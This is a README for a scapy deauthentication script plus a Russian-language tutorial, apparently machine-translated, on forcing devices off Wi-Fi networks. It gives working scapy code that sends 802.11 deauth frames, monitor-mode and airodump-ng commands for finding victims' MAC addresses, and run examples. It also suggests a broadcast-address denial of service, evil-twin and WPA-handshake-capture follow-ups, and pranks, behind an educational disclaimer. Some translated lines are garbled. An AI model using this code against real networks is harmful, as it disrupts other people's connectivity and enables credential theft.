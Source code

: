 # [Forcing a device to disconnect using scapy in Python](https://www.thepythoncode.com/article/force-a-device-to-disconnect-scapy)
to run this:
- Linux Machine.
- USB WLAN Stick.
- aircrack-ng.
- Turn the network interface to Monitor mode using the command:
    ```
    airmon-ng start wlan0
    ```
- `pip3 install -r requirements.txt`.
- 
    ```
    python3 scapy_deauth.py --help
    ```
    **Output**:
    ```
    usage: scapy_deauth.py [-h] [-c COUNT] [--interval INTERVAL] [-i IFACE] [-v]
                         target gateway

    A python script for sending deauthentication frames

    positional arguments:
    target                Target MAC address to deauthenticate.
    gateway               Gateway MAC address that target is authenticated with

    optional arguments:
    -h, --help            show this help message and exit
    -c COUNT, --count COUNT
                            number of deauthentication frames to send, specify 0
                            to keep sending infinitely, default is 0
    --interval INTERVAL   The sending frequency between two frames sent, default
                            is 100ms
    -i IFACE              Interface to use, must be in monitor mode, default is
                            'wlan0mon'
    -v, --verbose         wether to print messages
    ```
    For instance, if you want to deauthenticate `"00:ae:fa:81:e2:5e"` on an access point `"e8:94:f6:c4:97:3f"`, you can easily by:
    ```
    python3 scapy_deauth.py 00:ae:fa:81:e2:5e e8:94:f6:c4:97:3f -i wlan0mon -v
    ```
##
# [[] / []]()
В этом уроке мы увидим, как мы можем выгнать устройства из определенной сети, к которой вы на самом деле не принадлежите в Python с помощью Scapy, это можно сделать, отправив кадры деаутентификации в воздухе с помощью сетевого устройства, которое находится в режиме мониторинга.

Злоумышленник может в любое время отправить кадры деаутентификации на беспроводную точку доступа с поддельным MAC-адресом жертвы, в результате чего точка доступа деаутентифицируется с этим пользователем. Как вы можете догадаться, протокол не требует никакого шифрования для этого кадра, злоумышленнику нужно только знать MAC-адрес жертвы, который легко захватить с помощью утилит типа airodump-ng.

Проверьте и это: Как создать прослушиватель DHCP с помощью Scapy в Python.

Давайте импортируем Scapy (вам нужно сначала установить его, перейдите к этому руководству или официальной документации Scapy для установки):

from scapy.all import *
К счастью, у Scapy есть пакетный класс Dot11Deauth(), который делает именно то, что мы ищем. В качестве параметра требуется код причины 802.11, и мы выберем значение 7 на данный момент (которое является кадром, полученным от несвязанной станции, как упомянуто здесь).

Давайте создадим пакет:

target_mac = "00:ae:fa:81:e2:5e"
gateway_mac = "e8:94:f6:c4:97:3f"
# 802.11 frame
# addr1: destination MAC
# addr2: source MAC
# addr3: Access Point MAC
dot11 = Dot11(addr1=target_mac, addr2=gateway_mac, addr3=gateway_mac)
# stack them up
packet = RadioTap()/dot11/Dot11Deauth(reason=7)
# send the packet
sendp(packet, inter=0.1, count=100, iface="wlan0mon", verbose=1)
Связанные с: Создание 24 этических хакерских скриптов и инструментов с помощью Python Book

Это в основном точка доступа, запрашивающая деаутентификацию от цели; Вот почему мы устанавливаем MAC-адрес назначения на MAC-адрес оконечного устройства, а исходный MAC-адрес на MAC-адрес точки доступа, а затем отправляем стекированный кадр 100 раз каждые 0,1 секунды, это вызовет деаутентификацию в течение 10 секунд.

Вы также можете установить "ff:ff:ff:ff:ff:ff" (широковещательный MAC-адрес) как addr1 (target_mac), и это приведет к полному отказу в обслуживании, так как ни одно устройство не может подключиться к этой точке доступа. Это довольно вредно!

Теперь, чтобы запустить это, вам нужна машина Linux и сетевой интерфейс, который находится в режиме монитора. Чтобы включить режим монитора в сетевом интерфейсе, вы можете использовать утилиты Linux iwconfig или airmon-ng (после установки aircrack-ng):

$ sudo ifconfig wlan0 down
$ sudo iwconfig wlan0 mode monitor
Мрх

$ sudo airmon-ng start wlan0
Мой сетевой интерфейс называется wlan0, но вы должны использовать правильное имя сетевого интерфейса.

Теперь вы, возможно, задаетесь вопросом, как мы можем получить шлюз и целевой MAC-адрес, если мы не подключены к этой сети? это хороший вопрос. Когда вы переводите свою сетевую карту в режим монитора, вы можете фактически обнаруживать пакеты в воздухе, используя эту команду в Linux (при установке aircrack-ng):

$ airodump-ng wlan0mon
Примечание: wlan0mon - это имя моего сетевого интерфейса в режиме монитора. Вы можете проверить имя сетевого интерфейса с помощью утилиты iwconfig Linux.

Эта команда будет продолжать перехватывать кадры маяка 802.11 и упорядочивать сети Wi-Fi для вас, а также близлежащие подключенные к нему устройства.

Прежде чем мы выполним сценарий, телефон Android моей жертвы (который имеет MAC-адрес «00:ae:fa:81:e2:5e») обычно подключен к точке доступа Wi-Fi (которая имеет MAC-адрес «e8:94:f6:c4:97:3f»):

Подключенное устройствоТеперь выполним скрипт:

Выполнение атаки деаутентификацииВозвращаясь к устройству жертвы:

Отключенное устройство после атаки деаутентификации

Как видите, мы провели успешную атаку по деаутентификации! Вы можете передать -c 0 (по умолчанию), чтобы предотвратить его подключение до тех пор, пока вы не остановите выполнение!

Я настоятельно рекомендую вам проверить завершенную версию кода, использующего аргументы командной строки, как показано на рисунках.

Вам может быть интересно, почему это полезно? Ну, давай, посмотрим:

Одной из основных целей атаки деаутентификации является принуждение клиентов к двойной точке доступа Evil, которая может быть использована для захвата сетевых пакетов, передаваемых между клиентом и точкой доступа Rogue.
Также может быть полезно захватить 4-стороннее рукопожатие WPA. Затем злоумышленнику необходимо взломать пароль WPA.
Вы также можете шутить со своими друзьями!
СВЯЗАННЫЕ С: Как создать поддельные точки доступа с помощью Scapy в Python.

Наконец, в нашей книге Ethical Hacking with Python мы создаем 24 хакерских инструмента и скрипта с нуля с помощью Python! Проверьте это здесь, если вам интересно.

Отказ: Не используйте это в сети, на которую у вас нет разрешения, мы не несем никакой ответственности. Этот учебник предназначен для образовательных целей!